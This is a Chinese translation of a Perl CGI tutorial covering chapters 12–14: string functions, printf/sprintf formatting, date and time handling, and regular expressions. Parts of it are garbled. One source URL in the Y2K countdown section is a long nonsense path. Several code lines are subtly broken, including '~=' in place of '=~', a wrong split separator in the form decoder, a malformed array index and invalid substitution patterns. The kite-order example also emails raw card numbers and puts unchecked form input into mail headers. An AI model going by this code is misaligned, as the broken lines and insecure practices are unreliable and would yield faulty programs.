## 查找和替换子字符串

`index`函数返回`string2`在`string1`中的位置或索引：

```perl
index(string1, string2 [, offset])
```

`offset`是可选的。如果你提供`offset`，`index`将从`string1`的第`offset`个字符之后开始搜索`string2`。记住字符串索引从 0 开始，所以对于字符串`"Hello"`，第一个字母在第 0 位，是`"H"`。

```text
string:    "hello"

indices:   01234
```

对于上面的例子，`index("hello", "l")`将返回 2，即字符串中第一个`"l"`的位置。以下是更多`index`的示例：

```text
index("How now brown cow", "cow") => returns 14

index("How now brown cow", "o")  => returns 1

index("How now brown cow", "o", 6) => returns 10

index("fnord", "o")                => returns 2

index("Canada", "US")             => returns -1

                                     (string not found)

index("Use this", "US")           => returns -1
```

注意在最后一个示例中，`"US"`没有被匹配。`index`和`eq`一样，是区分大小写的。

如果你想从字符串末尾开始搜索，请使用`rindex`。它的工作方式与`index`相同，只是方向相反：

```perl
rindex("How now brown cow", "cow") => returns 14

rindex("How now brown cow", "o")  => returns 15

rindex("How now brown cow", "o", 6) => returns 5

rindex("fnord", "o")               => returns 2

rindex("Canada", "US")             => returns -1

                                     (string not found)

rindex("Use this", "US")           => returns -1
```

如果你想从给定字符串中获取子字符串，可以使用`substr`函数：

```perl
substr(string, offset, length)
```

这也可以用于赋值。以下是一些示例：

```perl
substr("Fnord",1,2)          => returns "no"

substr("Foo bar blee",4,3)   => returns "bar"

$foo = "Foo bar blee";

substr($foo,4,3) = "cat";     => replaces "bar" with "cat" -

                                  $foo is now "Foo cat blee"
```

## 连接字符串

有多种方法可以连接字符串。我们已经用过很多次的一种方法是简单地将变量嵌入引号中，如下所示：

```perl
$string1 = "cats";

$string2 = "dogs";

$string3 = "$string1 and $string2";

# string3 is now "cats and dogs"
```

你还可以使用连接运算符，即一个点号`.`，将两个字符串连接在一起：

```perl
$string1 = "cats";

$string2 = "dogs";

$string3 = $string1 . " and " . $string2;

# string3 is now "cats and dogs"
```

类似地，你可以使用字符串赋值运算符`.=`来连接字符串：

```perl
$string1 = "cats";

$string1 .= " and dogs";

# string1 is now "cats and dogs";
```

这在 CGI 中特别有用，当你想将相同的输出导向两个不同的地方时，例如同时输出到网页和邮件消息，或输出到两个略有不同的邮件消息。还记得在第 7 章中，我们的风筝目录订购脚本必须把所有内容打印两次——一次到`MAIL`，一次到网页吗？以下是一个只执行一次的示例，使用字符串连接。这只是整个脚本的一部分：

```perl
# Generate the receipt by storing it in $receipt

$receipt = "Order From: $FORM{'name'}\n";

$receipt .= "Shipping Address: $FORM{'ship_addr'}\n";

$receipt .= "City: $FORM{'ship_city'}\n";

$receipt .= "State: $FORM{'ship_state'}\n";

$receipt .= "ZIP: $FORM{'ship_zip'}\n";

$receipt .= "Address: $FORM{'ship_country'}\n";

$receipt .= "Phone: $FORM{'phone'}\n";

$receipt .= "Email: $FORM{'email'}\n\n";

$receipt .= "Payment Method: $FORM{'paytype'}\n";

$receipt .= "Items Ordered:\n";

$subtotal = 0;

foreach $i (@grok) {

    chomp($i);

    ($stocknum,$name,$status,$price) = split(/\|/,$i);

    if (exists $FORM{$stocknum}) {

        $subtotal = $subtotal + ($price * $FORM{$stocknum});

        $receipt .= "$name (#$stocknum) - \$$price ea., qty: $FORM{$stocknum}\n";

    }

}

$total = $subtotal + 3;

$receipt .= "Subtotal: \$$subtotal\n";

$receipt .= "Shipping: \$3.00\n";

$receipt .= "Total: \$$total\n";

# print the receipt on the web page

print <<EndHead;

<h2>Thank You!</h2>

Here's your receipt (print this out for your records):<p>

<pre>

$receipt

</pre>

EndHead

# print the receipt to the mail message

open(MAIL,"$mailprog -t") or &dienice("Couldn't send mail.");

print MAIL "To: kites\@cgi101.com\n";

print MAIL "Subject: Kite Order from $FORM{'email'}\n\n";

print MAIL $receipt;

# credit card info only input to MAIL

if ($FORM{'paytype'} ne "check") {

    print MAIL "Card#: $FORM{'ccno'}  Exp: $FORM{'ccexp'}\n";

    print MAIL "Billing Address: ${FORM{'bill_addr'}}\n";

    print MAIL "City: ${FORM{'bill_city'}\n";

    print MAIL "State: ${FORM{'bill_state'}\n";

    print MAIL "ZIP: ${FORM{'bill_zip'}\n";

    print "Thank you for your order. Your ${FORM{'paytype'}} will be billed for \$$total; you'll receive your order within 7-10 days.<p>\n";

} else {

    print "Thank you for your order. Please send a check or money order for \$$total to: Kite Store, 555 Anystreet, Somecity, TX 12345.<p>\n";

}

close(MAIL);
```

源代码：http://www/cgi101.com/class/ch12/order2a.txt

如你所见，将订单收据连接成一个字符串可以简化程序，避免编写重复代码。由于`$receipt`是在没有 HTML 标签的情况下创建的，因此它可以轻松地发送到邮件消息中，也可以用`<pre></pre>`标签包裹后显示在“感谢订购”页面上。

## 使用 `qq` 进行引用

你不一定要用引号来括住字符串。`qq`运算符允许你这样创建带引号的字符串：

```perl
qq(Fred says, "Hello there, $fnord!");
```

你也不必使用括号来括住字符串：`qq`可以接受任何字符作为字符串的分隔符。所以以下所有写法都是等同的：

```perl
"Fred says, \"Hello there, $fnord!\"";

qq(Fred says, "Hello there, $fnord!");

qq/Fred says, "Hello there, $fnord!/;

qq*Fred says, "Hello there, $fnord!*;
```

`qq`在你需要转义引号的情况下非常有用。例如，与其这样写：

```perl
print "<a href=\"http://lightsphere.com/\">foo</a>";
```

你可以用更简洁的方式实现同样的效果：

```perl
print qq(<a href="http://lightsphere.com/">foo</a>);
```

当然，如果你用作`qq`定界符的字符出现在字符串中，你仍然需要转义它。例如，如果你使用`qq()`，就必须转义所有的括号。

## 使用 `printf` 和 `sprintf` 格式化字符串

到目前为止，我们一直在使用`print`或`print <<EndHandle`来输出 CGI 中的字符串和数据。然而，这些方法通常无法提供你可能需要的格式控制级别。幸运的是，Perl 提供了一种相当标准的字符串格式化方法：`printf`和`sprintf`。这两个函数实际上是从 C 编程语言中借鉴来的；Perl 只是提供了`printf`和`sprintf`作为实际 C 函数的接口。

这两个函数的工作方式相同，区别仅在于它们如何处理输出：

- `printf`将格式化的字符串打印到`STDOUT`，就像`print`一样；
- `sprintf`允许你将格式化的字符串赋值给一个字符串变量，或者像使用任何其他字符串一样使用结果数据。

调用这些函数的语法是：

```perl
printf("Format string", variable list);

$mystring = sprintf("Format string", variable list);
```

格式字符串可以包含文本和`%-指令`。变量列表的元素会根据每个指令指定的格式，一个接一个地替换成字符串中的`%-指令`。

这里有一个例子。假设你有一个浮点数，想把它显示为价格。如果你使用 Perl 默认的`print`语句，最终会得到类似`"The price is $7.50000000."`的结果。但是使用`printf`，你可以格式化字符串，使其只在小数点后显示两位数字：

```perl
printf("The price is \$%4.2f\n",$price);
```

这将打印出`"The price is $7.50"`。`%4.2f`是格式字符串：`f`表示这是一个浮点数的格式；`4`是字段的总宽度，以字符为单位；`2`是小数点后要显示的位数。

`%-指令`通常的形式是：

```perl
`%mx` 或 `%m.nx`
```


`m` 和 `n` 是可选的大小说明符；`m` 通常是字段的最小长度，`n` 是精度（对于浮点数）或字段的最大长度（对于其他类型）。`x` 是以下之一：

| 代码 | 数据类型 | 示例 |
| :--- | :--- | :--- |
| `c` | 字符 | `%2c` |
| `d,i` | 十进制数 | `%2d` |
| `e,E` | 指数记数法（如 2.04e-12） | `%4.2e` |
| `f` | 浮点数 | `%4.2f` |
| `g,G` | 紧凑浮点数 | `%4.2g` |
| `o` | 八进制数 | `%8o` |
| `s` | 字符串 | `%8s` |
| `u` | 无符号十进制数 | `%2u` |
| `x,X` | 十六进制数（如 3b2cff） | `%3x` |

在上面的格式说明中，`%` 和 `m`（代码）之间还有一些可选的格式说明符：

| 标志 | 描述 |
| :--- | :--- |
| `0` | 数值零填充。转换后的值在左侧用零而不是空格填充。 |
| `-` | （负的字段宽度标志）表示转换后的值将在字段边界左对齐。转换后的值在右侧用空格填充，而不是在左侧用空格或零填充。 |
| `+` | 指定在有符号转换产生的数字前始终放置一个符号。如果同时使用了空格，`+` 会覆盖空格。 |

默认情况下，`printf` 将所有字段格式化为右对齐。如果你想使用左对齐字段，请使用：

```
`%-m.nx`
```

指令中 `%` 和其余部分之间的负号（`-`）强制左对齐。

此外，如果你有一个十进制字段，并且想对字段格式进行零填充，请使用此指令：

```
`%0m.nx`
```

例如，`%02d` 是一个零填充的十进制数，宽度为 2 位。在格式化日期时你会想用到它。

这里是一些 `printf` 和 `sprintf` 的附加示例：

```
printf("Today is %02d/%02d/%04d",$mo,$day,$yr);
#  "Today is 02/03/1999"
```

```
printf("The total is \$%4.2f",$total);
#  "The total is $8.50"
```

```
printf("The average is %4.1f",(5.5 + 8.7 + 4.25) / 3);
#  "The average is  6.1"
```

```
$outstr = sprintf("%4s %24s \$%5.2f %04d\n", $snum, $name, $price, $qty);
#  " 514 Pocket Parafoil         $ 19.95 0001"
```

`printf` 擅长将数据格式化为列。这里有一个名为 `dumpcat.cgi` 的简单脚本，它读取我们的风筝数据库并将其打印成列：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

print "<pre>\n";

open(INF,"data.db");
@kites = <INF>;
close(INF);

printf("%-25s Stock# Status Price\n","Kite Name");

foreach $i (@kites) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    printf("%-25s %04d  %3s  \$%4.2f\n", $name, $stocknum, $status, $price);
}

print "</pre>\n";
```

源代码： http://www.cgi101.com/class/ch12/dumpcat.txt
工作示例： http://www.cgi101.com/class/ch12/dumpcat.cgi

这里是我们风筝订单脚本的一部分，这次使用 `sprintf` 代替普通字符串：

### 处理字符串

```
foreach $i (@grok) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    if (exists $FORM{$stocknum}) {
        $subtotal = $subtotal + ($price * $FORM{$stocknum});
        $receipt .= sprintf("$name (#$stocknum) - \$%4.2f ea., qty: $FORM{$stocknum}\n",$price);
    }
}

$total = $subtotal + 3;
$receipt .= sprintf("Subtotal: \$%4.2f\n",$subtotal);
$receipt .= "Shipping: \$3.00\n";
$receipt .= sprintf("Total: \$%4.2f\n",$total);
```

注意，你不必为字符串中的每个变量都使用 `%-指令`。在这里，我们只在出现浮点数（用于价格）的地方使用它们。

接下来我们将介绍 Perl 中的日期和时间，并学习如何使用 `printf` 格式化日期。

## 资源

`sprintf` 手册页

访问 http://www.cgi101.com/class/ch12/ 获取本章的源代码和链接。

# 13 Perl 中的日期和时间

Perl 中有几个函数可以返回当前的日期和时间：`time`、`localtime` 和 `gmtime`。

`time` 函数返回自 1970 年 1 月 1 日以来的秒数。这是许多编程语言和操作系统中使用的标准函数。你不太可能直接使用 `time` 的值，但你需要将它传递给 `localtime` 函数，该函数会给你实际的日期和时间。`localtime` 的调用方式如下：

```
@timery = localtime(time);
```

或者你可以这样调用：

```
($sec,$min,$hr,$mday,$mon,$year,$wday,$yday,$isdst) = localtime(time);
```

这会将 `localtime` 数组的元素分配给特定的变量。我们将在本章其余示例中使用上面的列表。`localtime` 返回的列表值为：

| 元素编号 | 值 |
| :--- | :--- |
| 0 | 秒 |
| 1 | 分 |
| 2 | 时 |
| 3 | 月中的日 |
| 4 | 月份（整数，0-11） |
| 5 | 年份（00-99）* |
| 6 | 星期几（0-6） |
| 7 | 年中的第几天（1-365） |
| 8 | 是否是夏令时？0（否）或 1（是） |

每个值都是一个整数。关于这个列表有几点说明：月份是以 0-11 的数字返回的，所以如果你计划以像 10/12/98 这样的格式打印日期，你必须将月份的值加 1。另一方面，如果你计划将月份映射到其实际名称，你可以直接使用它：

```
@months = ("January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December");
@timery = localtime(time);
print "The month is $months[\$timery{4}]\n";
```

`localtime` 返回相对于本地机器时钟的日期和时间。所以如果你在达拉斯的一台机器上运行脚本，并且机器时钟设置为 CST（美国中部标准时间），`localtime` 将返回中部标准（或夏令）时间。

另请注意，你可以在标量上下文中使用 `localtime`：

```
print scalar localtime(time);
```

这将以 "Fri Oct 1 11:02:12 1999" 的格式打印时间。

## 格林威治标准时间

`gmtime` 函数的工作方式与 `localtime` 类似，不同之处在于它返回格林威治标准时间（GMT）：

```
($sec, $min, $hr, $mday, $mon, $year, $wday, $yday, $isdst) = gmtime(time);
```

## 2000 年问题

在 `localtime` 和 `gmtime` 返回的列表中，`year` 实际上是当前年份减去 1900。所以如果是 1999 年，`localtime` 数组中的 `year` 是 99。如果是 2000 年，`year` 是 100。如果你需要获取四位数的年份，只需将 `localtime` 返回的年份值加上 1900 即可：

```
$thisyear = $year + 1900;
```

如果你遵循这个步骤，你的脚本将永远不会有任何 2000 年问题。

## 月份和星期名称

如果你想显示月份或星期几的名称，例如“Tuesday, September 29”，该怎么办呢？这种情况下，你需要使用数组来存储这些名称本身：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

@days = ("Sunday","Monday","Tuesday","Wednesday","Thursday",
        "Friday","Saturday");
@months = ("January","February","March","April","May","June",
          "July","August","September","October","November",
          "December");

($sec,$min,$hr,$mday,$mon,$year,$wday,$yday,$isdst) =
localtime(time);
$year = $year + 1900;

print "Today is $days[$wday], $months[$mon] $mday, $year.\n";
```

源代码：http://www.cgi101.com/class/ch13/mday.txt
在线示例：http://www.cgi101.com/class/ch13/mday.cgi

注意这里我们没有给月份加 1，因为月份是一个 0-11 的数字，而我们的 `@months` 数组下标也是 0-11。`$months[$mon]` 会给出正确的月份。

## 已过去（或尚未到来）的日期

那么如何打印当前时间之外的日期/时间呢？基本上与打印当前日期/时间相同，只是不再将 `time` 的值传递给 `localtime` 函数，而是加上或减去秒数。例如：

```
@timery = localtime(time+86400);
```

这会返回 24 小时后的日期和时间。（86400 秒 = 24 小时）

以下是时间转换为秒的换算表：

1 hour       3600 seconds
24 hours     86400 seconds
1 week       604800 seconds
4 weeks      2419200 seconds (28 days)
1 year       31536000 seconds (365 days)

第120章 第十三章 Perl 中的日期和时间

你可以将这些值加到 `time` 上或从中减去，以获得不同的日期。这也可以用来获取与当前机器所在时区不同的时区的时间。如果你的 ISP 位于中部时区，而你在太平洋时区，你可以通过以下方式获取你所在时区的正确时间：

```
@timery = localtime(time-(3600*2));
```

这会将本地时间减去 2 小时；如果达拉斯的主机时间是下午 3 点，那么西雅图只到下午 1 点。

## 格式化日期和时间

`printf` 和 `sprintf` 在此非常有用：格式化日期和时间。你会需要使用 `%02d` 格式来实现带前导零的两位数字日期和时间。以下脚本展示了多种输出日期和时间的方式：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

print "<pre>\n";

@days = ("Sunday","Monday","Tuesday","Wednesday","Thursday",
         "Friday","Saturday");
@shortdays = ("Sun","Mon","Tue","Wed","Thu","Fri","Sat");
@months = ("January","February","March","April","May","June",
           "July","August","September","October","November",
           "December");
@shortmonths = ("Jan","Feb","Mar","Apr","May","Jun","Jul","Aug",
                "Sep","Oct","Nov","Dec");

($sec,$min,$hr,$mday,$mon,$year,$wday,$yday,$isdst) =
    localtime(time);

$longyr = $year + 1900;
$fixmo = $mon + 1;

if ($isdst == 1) {
    $tz = "CDT";
} else {
    $tz = "CST";
}

# 如果我们只想要两位数的年份，如 00，那就得
# 用点复杂的方法...

$yr2 = substr($longyr,2,2);

# 02/03/1999
printf("%02d/%02d/%04d\n", $fixmo, $mday, $longyr);

# Wed, 03 Feb 99 12:23:55 CST
printf("%3s, %02d %3s %02d %02d:%02d:%02d $tz\n",$shortdays[$wday], $mday, $shortmonths[$mon], $yr2, $hr, $min, $sec);

# Wed, 03 Oct 1999 12:23:55 CST
printf("%3s, %02d %3s %04d %02d:%02d:%02d $tz\n",$shortdays[$wday], $mday, $shortmonths[$mon], $longyr, $hr, $min, $sec);

# Wednesday, 03-Feb-99 08:49:37 CST
printf("$days[$wday], %02d-%3s-%02d %02d:%02d:%02d $tz\n", $mday, $months[$mon], $yr2, $hr, $min, $sec);

# Wed Feb  3 08:49:37 1999
printf("%3s %3s %2d %02d:%02d:%02d %04d\n", $shortdays[$wday], $shortmonths[$mon], $mday, $hr, $min, $sec, $longyr);

# 03/Feb/1999 11:51:57 CST
printf("%02d/%3s/%04d %02d:%02d:%02d $tz\n", $mday, $shortmonths[$mon], $longyr, $hr, $min, $sec);

# Wednesday, February 2, 1999
print "$days[$wday], $months[$mon] $mday, $longyr\n";

print "</pre>\n";
```

源代码：http://www.cgi101.com/class/ch13/dates.txt
在线示例：http://www.cgi101.com/class/ch13/dates.cgi

## 倒计时钟

你可能在网页上见过这些——千禧年倒计时，或者"距离圣诞节还有 X 天购物日！"之类的。设计你的倒计时钟取决于你要计数的日期有多远。如果你要倒计时到本年内的某个日期，可以使用 `localtime` 返回的"当前年中的第几天"值。只需用目标日期减去当前天数即可。

### 圣诞节倒计时

以下是一个圣诞节倒计时的示例：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

# 圣诞节距离年底还有 1 周
$xmas = 365 - 7;

@timery = localtime(time);
$daysleft = $xmas - $timery[7];

if ($daysleft < 0) {
  # 一个特殊情况，用于圣诞节后的一周
  $daysleft = 365 + $daysleft;
  print "Ho ho ho! $daysleft days until NEXT Christmas!\n";
} elsif ($daysleft == 0) {
  # 圣诞节当天的特殊信息
  print "Merry Christmas!\n";
} else {
  print "Only $daysleft shopping days left until Christmas!\n";
}
```

源代码：http://www.cgi101.com/class/ch13/xmas.txt
在线示例：http://www.cgi101.com/class/ch13/xmas.html

要使用这种倒计时 CGI，你需要在网页中使用服务器端包含：

```
<!--#exec cgi="xmas.cgi"-->
```


与所有 Perl 索引一样，`localtime` 返回的年中日数字从 1 月 1 日开始以 0 计数，所以在编写倒计时时需要记住这个偏移量。通过将“365 - 7”这一行改为“366”，上述脚本可以轻松地修改为新年倒计时。

## 2000 年倒计时

当倒计时到遥远未来的日期时，比如几年后的某一天，计算会稍微复杂一些。你需要算出从 1970 年 1 月 1 日（`time` 等于 0 的时刻）到目标日期的精确秒数，并调整期间经过的闰年。

以下是一个倒计时到 2000 年 1 月 1 日午夜的程序——如果已经过了那个日期，则显示自那时起已过了多少时间。

```perl
#!/usr/bin/perl

print "Content-type:text/html\n\n";

# 1 年等于 31536000 秒，所以乘以 30。

$y2k = 31536000 * 30;

# 现在循环遍历年份，为每个闰年加一天（86400 秒）

foreach $i (1970..1999) {

    if (($i % 4) == 0) {

        $y2k = $y2k + 86400;

    }

}

$current = time();

@timery = localtime($current);

# 本地时区（中部）比 GMT 晚 6 小时，所以加 6

# 小时得到我们的 Y2K 时间。

$y2k = $y2k + (3600*6);

print "Current time is: ", scalar localtime($current), "<p>\n";

print "Y2K: ", scalar localtime($y2k), "<p>\n";

if ($current < $y2k) {

    # 还没到 Y2K。打印还剩多少时间。

    ($secs,$mins,$hrs,$days,$weeks,$mos) = &calc_time($y2k - $current);

    print "There are $weeks weeks, $days days, $hrs hours, $mins minutes, and $secs seconds left until January 1, 2000.\n";

} else {

    # 已经过了。打印已过了多少时间。

    ($secs,$mins,$hrs,$days,$weeks,$mos) =

    calc_time($current-$y2k);

    print "$weeks weeks, $days days, $hrs hours, $mins minutes, and $secs seconds have elapsed since January 1, 2000.\n";

}

sub calc_time {

    my($mytime) = @_;

    # 这些操作只是将 $mytime（原始秒数）

    # 分解为小时、分钟等。

    $weeks = int($mytime / 604800);

    $mytime = $mytime - (604800 * $weeks);

    $days = int($mytime / 86400);

    $mytime = $mytime - (86400 * $days);

    $hrs = int($mytime / 3600);

    $mytime = $mytime - (3600 * $hrs);

    $mins = int($mytime / 60);

    $secs = $mytime - (60 * $mins);

    return ($secs,$mins,$hrs,$days,$weeks);

}
```

源代码：`http://www.cgi101.com/class/ch13_learning_image.lib_extractednote_extracted.h_samples_extracted_cb_h/names_train_docs_extracted/s/v_cp_res_counter_samples_loader_extracted/v_namesSamples_loader_extracted.c_samples_extracted/images_samples_extracted/./images_extracted/./不再使用 /http://www.cgi101.com/class/ch13/y2k.txt`

在线示例：`http://www.cgi101.com/class/ch13/y2k.html`

这个特定的脚本将倒计时调整为本地时区（本例中为中部时区），但你可以轻松移除这个功能，获取 GMT 时间的倒计时。此外，如果要计时的起点距离现在超过一年，你可能想在 `calc_time` 子程序中添加以下代码：

```perl
$years = int($mytime / 31536000);

$mytime = $mytime - 31536000;
```

我们在这里还使用了模运算符（`%`）来计算闰年：

```perl
if (($i % 4) == 0) {

    $y2k = $y2k + 86400;

}
```

模运算符返回整数除法的余数：`i % 4` 返回 `$i` 除以 4 的余数。当余数为零时，该年份能被 4 整除，因此是闰年，所以我们为每个闰年增加一天的总数。

## 资源

访问 `http://www.cgi101.com/class/ch13/` 获取本章的源代码和链接。

# 14 正则表达式

正则表达式是 Perl 的核心功能。借助正则表达式，你可以匹配任何模式，从最简单的（如电子邮件地址）到最复杂的。

正则表达式可以用来匹配模式，如下所示：

```perl
if ($var =~ /pattern/) {

    # do whatever if $var matches pattern

}
```

也可以写成这样：

```perl
if ($var =~ m/pattern/) {

    # do whatever if $var matches pattern

}
```

`/pattern/` 前面的“m”是可选的——你会看到两种写法都有使用。但是，如果你使用了“m”，那么你就可以使用任意一对你想要的分隔符，而不是斜杠。例如：

```perl
if ($var =~ m#pattern#) {

    # do whatever if $var matches pattern

}
```

同样可以工作（前提是模式中没有未转义的 `#` 号）。

正则表达式也可以用来替换模式：

```perl
$var =~ s/pattern/replacement/;    # replace pattern in $var
```

请注意，这些表达式的共同特征是 `=~` 运算符（称为“绑定运算符”）：它告诉 Perl 你要进行正则表达式匹配。反向绑定运算符（`!~`）可以用来取反匹配：

```perl
if ($var !~ /pattern/) {

    # do whatever if $var does NOT match pattern

}
```

`"pattern"` 中的内容是表示你要匹配的表达式的公式。

下表列出了你可以在模式中使用的符号：

| 符号 | 匹配内容 |
|---|---|
| `.` | 匹配除换行符外的任意单个字符 |
| `[a-z0-9]` | 匹配集合中的任意单个字符 |
| `[^a-z0-9]` | 匹配不在集合中的任意单个字符 |
| `\d` | 匹配一个数字（0-9 的数字） |
| `\D` | 匹配一个非数字（0-9 以外的字符） |
| `\w` | 匹配一个字母数字字符（a-zA-Z、0-9 和 `_`） |
| `\W` | 匹配一个非字母数字字符 |
| `\s` | 匹配一个空白字符（空格、制表符、换行符） |
| `\S` | 匹配一个非空白字符 |
| `\n` | 匹配一个换行符 |
| `\r` | 匹配一个回车符 |
| `\t` | 匹配一个制表符 |
| `\f` | 匹配一个换页符 |
| `\b` | 匹配一个退格符（仅在 `[]` 内） |
| `\0` | 匹配一个空字符 |
| `\b` | 匹配一个单词边界（仅在 `[]` 外） |
| `\B` | 匹配一个非单词边界 |
| `^` | 锚点匹配到行首或字符串开头 |
| `$` | 锚点匹配到行尾或字符串末尾 |
| `x?` | 匹配 0 个或 1 个 x，其中 x 可以是上述任意符号 |
| `x*` | 匹配 0 个或多个 x |
| `x+` | 匹配 1 个或多个 x |
| `x{m,n}` | 至少匹配 m 个 x，但不超过 n 个 |
| `(pat1\|pat2)` | 匹配 pat1 或 pat2 之一 |
| `(pat)` | 存储一个模式，可通过 `$1`、`$2` 直到 `$9` 进行反向引用 |

所有其他字符匹配其自身（例如“a”匹配“a”），但以下特殊字符除外：`+`、`?`、`.`、`*`、`^`、`$`、`@`、`(`、`)`、`|`、`[`、`]`、`\`。要匹配这些字符中的任何一个，你必须使用反斜杠（例如 `"\$"` 匹配“$”）。

## 验证电子邮件地址

那么，假设你想创建一个模式来匹配有效的电子邮件地址。在任何需要向某人发送邮件的 CGI 程序中，你可能都需要这样的模式，因为你不想向一个虚假的地址发送邮件。在最简单的形式中，你只需检查地址中是否包含“@”符号，如下所示：

```perl
if ($email =~ /.*@.*/) {

    # do whatever if it matches

}
```

这匹配任何包含零个或多个任意字符（`.*`），后跟一个“@”，再后跟零个或多个任意字符（`.*`）的字符串。虽然它能匹配电子邮件地址，但它也会匹配无效地址，比如只有“@”符号，或者“fred @ anywhere”。因此，让我们修改这个模式，使 `@` 符号前后允许除空格以外的任意字符（`\S`），并且要求至少有一个（`+`）这样的字符：

```perl
if ($email =~ /\S+@\S+/) {

    # do whatever if it matches

}
```

这是一个大大改进的模式；它能匹配有效的电子邮件地址，但也会匹配诸如“fred@aol”之类的内容，即有人忘了在地址末尾加上 `.com`。由于 `fred@aol` 也不是有效的电子邮件地址，让我们进一步细化匹配。这里我们要求 `@` 符号后面某处必须有一个句点（由于句点在正则表达式中是特殊字符，必须用反斜杠转义）：

```perl
if ($email =~ /\S+@\S+\.\S+/) {

    # do whatever if it matches

}
```

现在我们已经接近了。但这里仍然有个问题：上面的模式也会匹配完全虚假的内容，如“:1jg4!!$@ 58$^/(.com”。所以我们需要再次细化模式。这次，我们不再确保地址字符不是空格，而是确保它们是字母数字字符（`\w`）。此外，域名中可以合法地包含连字符，用户名也可能包含连字符，所以我们实际上需要匹配字母数字和连字符的组合。为此，我们将集合放在方括号中，如下所示：`[\w\-]+`。（连字符也必须用反斜杠转义，否则它意味着要匹配一个字符范围。）最终的模式如下所示：

```perl
if ($email =~ /[\w\-]+@[\w\-]+\.[\w\-]+/) {

    # do whatever if it matches

}
```

现在我们有了一个相当精确的模式。它看起来可能很复杂，但实际上并非如此；如果你把它分解成各个组成部分，你就能很容易理解它匹配的是什么。

以下是你可能在 CGI 表单中使用它的方式：

```perl
if ($FORM{'email'} !~ /[\w\-]+@[\w\-]+\.[\w\-]+/) {

    dienice("Error - you didn't enter a valid e-mail

address.");

}
```

上面的例子使用了取反匹配，所以只有当地址不匹配该模式时，才会调用 `dienice` 子程序。

源代码：`http://www.cgi101.com/class/ch14/patmatch.txt`

## 替换

正则表达式可以用来替换字符串中的特定模式。我们之前在表单处理中已经用过这个功能，在第 6 章中，我们从所有输入行中移除了换行符：

```perl
$value =~ s/\n/ /g;
```

末尾的“g”是一个量词，告诉 Perl 在整个字符串上进行全局替换。（如果没有 `g`，则只会替换一次该模式。）

再举一个例子：假设你正在读取一个以管道符分隔的扁平文件数据库，就像我们第 7 章的示例那样。每行数据大致如下所示：

```text
340|4-Cell Tetra|IN|45.00
```

你可以轻松地将其打印出来，只需将管道符号替换为制表符即可：

```perl
$line =~ s/\|/\t/g;

print $line;
```

下面是一个将字符 `<`、`>` 和 `"`（引号）转换为 HTML 编码的示例：

```perl
$i =~ s/\/>/\&gt;/g;

$i =~ s/\</\&lt;/g;

$i =~ s/\"/\&quot;/g;
```

当你在另一个网页上重新显示表单输入的文本时，上述内容非常有用。（否则，如果你尝试直接显示 `<` 或 `>`，可能会破坏你的 HTML，因为它看起来像是一个未关闭的标签。`&lt;` 和 `&gt;` 是在页面上正确显示这些字符的方式。）

## 去除 HTML 标签

以下是替换的另一个示例。这段代码从字符串中移除所有 HTML 标签：

```perl
$totext = $FORM{'comments'};

$totext =~ s/<[^>]+>//g;
```

这个模式匹配一个左尖括号（`<`），后跟一个由一个或多个（`+`）非右尖括号字符（`[^>]`）组成的集合，再后跟一个右尖括号。所有 HTML 标签以及任何形如 `<fnord>` 的内容都会被移除。

如果你有一个双重用途的表单，既允许用户发布到另一个网页（如留言板或分类广告，其中 HTML 是可接受的），又通过电子邮件发送相同的消息（必须是纯文本），那么这个功能就很有用。

## 反向引用

当你将模式或模式的一部分放在圆括号中时，Perl 会创建一个临时变量，你可以在替换部分的表达式中（或在匹配之后的后续行中）使用它来反向引用该模式。这些临时变量命名为 `$1`、`$2`、`$3`，一直到 `$9`，前提是你有那么多的分组。例如：

```perl
$foo =~ /(.*\/You entered $1/;
```

由于 `.*` 匹配所有内容，如果 `$foo` 初始值为“blablabla”，它会被改为“You entered blablabla”。

再看一个例子：

```perl
$input = "Name: Fred Jones; Occupation: System Administrator";

$output = $input;

$output ~= s/Name: (.*); Occupation: (.*)/Your name is $1, and you're an excellent $2./;

print "$output\n";

print "Thanks for visiting, $1!\n";
```

请注意，反向引用变量可以在匹配语句之后使用。它们在下一次匹配之前一直有效：所以如果你需要保留它们更长时间，一定要将它们赋值给另一个变量。

让我们回过头来看看我们的表单解码代码块：

```perl
read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});

@pairs = split(/\, /, $buffer);

foreach $pair (@pairs) {

    ($name, $value) = split(/=/, $pair);

    $value ~= tr/+/ /;

    $value ~= s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;

    $FORM{$name} = $value;

}
```

这部分代码的核心是这一行，它将十六进制值转换回其 ASCII 等价字符：

```perl
$value ~= s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
```

现在你应该能更好地理解它了。这个模式匹配任何以 `%` 号为前缀的两个字母或数字的组合（如 `%7E`、`%2F`、`%40` 等——都是十六进制编码）。由于这两个字母的编码被圆括号包围，它通过变量 `$1` 传递给匹配的后半部分。末尾的“e”是一个量词，告诉 Perl 对模式的右侧进行求值——即对它遇到的任何函数调用进行求值。这里我们使用了 `pack` 函数，它负责将实际的十六进制编码（`hex($1)`）转换回一个字符（`"C"` 参数告诉 `pack` 返回一个无符号字符值）。最后，“g”量词告诉 Perl 在整个字符串上全局进行此更改。

## 不区分大小写的匹配

正如我们在第 12 章中看到的，“US”在 Perl 中与“us”并不相同。如果你想以不区分大小写的方式匹配模式呢？很简单——在正则表达式模式中，你只需在模式后面添加一个 `i`：

```perl
$var =~ /pattern/i;  # 以不区分大小写的方式匹配模式
```

例如，要检查 `country` 是否等于“US”，你可以这样做：

```perl
if ($FORM{'country'} =~ /US/i) {

    print "You appear to be in the US.\n";

}
```

或者，因为人们可能会输入“U.S.”而不只是“US”，这里有一种替代方法，它会在执行匹配之前移除非字母字符：

```perl
$country = $FORM{'country'};

$country =~ s/[^a-zA-Z]//g;

if ($country =~ /US/i) {

    print "You appear to be in the US.\n";

}
```

## 锚定匹配

正则表达式会匹配字符串中的任意位置，除非你锚定匹配。例如，这个匹配：

```perl
if ($fest =~ /kite/i) {

    print "$fest\n";

}
```


